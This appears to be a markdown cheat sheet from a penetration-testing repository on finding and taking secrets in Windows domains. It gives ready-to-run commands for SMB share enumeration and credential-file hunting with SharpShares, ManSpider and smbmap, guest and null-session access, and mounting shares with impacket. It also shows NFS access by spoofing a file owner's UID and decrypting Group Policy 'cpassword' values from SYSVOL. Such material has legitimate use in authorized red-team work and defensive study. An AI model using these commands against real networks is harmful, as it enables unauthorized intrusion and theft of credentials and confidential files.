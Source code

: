
---
### __Search and exfil/dump secrets stored in the domain:__
#### _Search for secrets in file shares/servers:_
- Enumerate SMB shares:
    - List all shares in the domain and check if you can access them \([SharpShares](https://github.com/djhohnstein/SharpShares)\): `SharpShares shares`
	- Crawl every share on every target system \(if provided creds don't work, it will fall back to "guest", then to a null session\): 
		- Search filenames that may contain creds \([ManSpider](https://github.com/blacklanternsecurity/MANSPIDER)\): `manspider <target ip range> -f <key word filename (e.g. cred, login) -d <domain> -u <username> -p <password>` 
		- Search for specific file type containing a keyword \([ManSpider](https://github.com/blacklanternsecurity/MANSPIDER)\): `manspider <single target ip or range> -c <keyword> -e <extension (e.g. xlsx)> -d <domain> -u <username> -p <password>`
	- Recursive list accessible shares and content \([Smbmap](https://github.com/ShawnDEvans/smbmap)\): `smbmap.py -H <target ip> -u "" -p "" (-d <domain>) -R (<share name>) (--depth 5) -A '<pattern>'`
	- Find specific files within shares \([Smbmap](https://github.com/ShawnDEvans/smbmap)\): `smbmap.py -H <target ip> -u "" -p "" (-d <domain>) -q -R (--depth 5) (--exclude <share name to exclude from recursive search>) -A '(xml|config|conf|asax|aspx|php|asp|jsp|html)'`
- Mount to SMB share:
    - 1\. Mount to target share \(use anonymous, randon username or password/hash\) \([impacket](https://github.com/SecureAuthCorp/impacket)\): `python3 smbclient.py (<domain>/)<username>@<target ip> (-hashes :<NTLM>)`
    - 2\. Command options:
    	- List available shares: `shares`
    	- Mount share: `use <share name>`
    	- Move through directories and list, create and delete files/directories with normal unix commands
    	- Download file: `get <filename>`
    	- Upload file: `put <filename>`
- Connect to FTP server: `proxychains4 ftp -p <target ip>`
- Connect to TFTP server: `tftp <target ip>`
- Connect to Network File System \(NFS\) (port 2049):
    - 1\. Before mounting, first create a temporary directory as your mount point: mkdir \-p /mnt/<create directory>
    - 2\. Mount to folder:
    	- 1\. List available folders for mounting: `showmount -e <target ip>`
    	- 2\. Mount to folder: `mount -t nfs <target ip>:/<name available folder> /mnt/<created directory> -o nolock`
    - 3\. The  content of the misconfigured directory is available at: `cd /mnt/<created directory>`
    - 4\. \(optional\) if you get permission denied while trying to read a file or accessing a folder, it is possible to create a new user on your own local system and modify that users UUID so it matches the user account who owns the file/folder:
    	- 1\. Check which name and UUID owns the file/folder you dont have persmissions for \(run in the mounted folder\): `ls -la`
    	- 2\. Create a new local user with the same name as the file/folder owner: `adduser <username>`
    	- 3\. Modify the new users UUID so it matches the UUID of the file/folder owner in /etc/passwd
    	- 4\. su to the new user and gain access to the folder or read the file: `su <username>`

#### _Scan SysVol share for interesting files:_
- 1\. Search for interesting files like \.xml Group Policy Preference \(GPP\) files in the DC SYSVOL share: `get-childitem \\<DC name>\SYSVOL\<FQDN>\Policies -include *.xml -Recurse`
- 2\. Analyse the returned xml files \(specially Groups\.xml\) for user information and encrypted passwords
- 3\. \(optional\) GPP passwords are of type “cpassword” and can be decrypted to plaintext \([gpp\-decrypt](https://github.com/t0thkr1s/gpp-decrypt)\): `python3 gpp-decrypt.py -f <groups.xml>`
